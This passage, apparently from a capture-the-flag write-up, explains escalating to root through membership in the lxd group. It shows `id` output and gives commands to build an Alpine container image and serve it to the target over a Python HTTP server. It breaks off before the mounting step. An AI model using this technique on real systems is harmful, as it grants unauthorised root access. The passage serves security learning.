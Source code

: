 Now we need to escalate our privileges to root. Let’s view the groups that the user is a part of.

```text
sh@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

The _lxd_ group is particularly interesting. LXD is Ubuntu’s system container manager. This is similar to virtual machines, however, instead using linux containers. As described in [this link](https://reboare.github.io/lxd/lxd-escape.html), the lxd group should be considered harmful in the same way the [docker](https://www.andreas-jung.com/contents/on-docker-security-docker-group-considered-harmful) group is. Any member of the lxd group can immediately escalate their privileges to root on the host operating system.

This in itself is not a bug, but intended functionality as described in this [link](https://materials.rangeforce.com/tutorial/2019/12/07/Privilege-Escalation-Docker-LXD-Groups/).

![Image for post](../images/max/1724/1*DAXwH9lcDDObaaZNm_yKvQ.png)

There are several ways to exploit this functionality and escalate privileges to root. We’ll do it by mounting the /root filesystem to the container. To do that, we’ll use the “_Exploiting without internet — Method 2_” instructions in [this link](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

First, download and build a linux alpine image on the attack machine.

```text
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo bash build-alpine
```

Second, transfer the image to the target machine. This can be done by starting a python server on the attack machine.

```text
python -m SimpleHTTPServer 6666
```
